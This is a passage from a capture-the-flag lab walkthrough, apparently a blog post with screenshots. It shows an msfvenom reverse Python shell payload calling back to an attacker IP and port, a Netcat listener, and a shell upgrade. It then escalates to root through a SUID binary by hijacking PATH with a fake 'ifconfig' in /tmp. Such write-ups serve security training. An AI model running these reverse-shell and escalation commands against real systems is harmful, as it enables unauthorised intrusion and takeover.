 We used Msfvenom to create a python payload.

```
msfvenom -p cmd/unix/reverse\_python lhost=192.168.1.107 lport=4444 R
```

![](https://i1.wp.com/1.bp.blogspot.com/-Ynlk9PXFVFM/XbsigWfdnjI/AAAAAAAAhMc/Rde28SKnpoEBnap_KJvUgvoffwayB9RXwCLcBGAsYHQ/s1600/35.png?w=687&ssl=1)

The payload is uploaded through our existing Netcat session, all that needed to be done was the payload to be pasted into the terminal and executed.

```
id
```

![](https://i2.wp.com/1.bp.blogspot.com/-KC4DQCYNus8/Xbsig974i2I/AAAAAAAAhMg/3O5UVxluGSEWDhnfbrad-G7dVeB6ko8XACLcBGAsYHQ/s1600/36.png?w=687&ssl=1)

### **Privilege Escalation**

A new Netcat session is started on the port (4444) that we defined in our payload and we see the execution occur flawlessly.

```
nc -lvp 4444  
python -c 'import pty;pty.spawn("/bin/bash")'  
find / -perm -u=s -type f 2>/dev/null
```

![](https://i2.wp.com/1.bp.blogspot.com/-ORFaQ1QRgAU/XbsiheKigcI/AAAAAAAAhMk/N4KcHQZvuqUrBnWgTnLh4MmvgAYeReFDwCLcBGAsYHQ/s1600/37.png?w=687&ssl=1)

Then without wasting any time we searched for any file having SUID or 4000 permission with the help of Find command.

![](https://i1.wp.com/1.bp.blogspot.com/-aSvaRlRcZbU/XbsihnKQZkI/AAAAAAAAhMo/Q7-oAADbekEPJ4r6Kijlun8AfVnqeGzfgCLcBGAsYHQ/s1600/38.png?w=687&ssl=1)

The Find command gave us an interesting file named “ignite”. We will try to enumerate this further.

Now, we need to compromise the target system further to the escalate privileges. PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored. When the user runs any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user. So, when we exported the PATH and ran the command. It gave us the root shell. After getting the root shell we moved onto the root directory to look for flags. Here we find a final.txt. We opened the flag using the cat command to find the Strom Breaker Flag.

```
cd /tmp  
echo "/bin/bash" > ifconfig  
chmod 777 ifconfig  
export PATH=/tmp:$PATH  
/opt/ignite  
cd /root  
ls  
cat final.txt
```
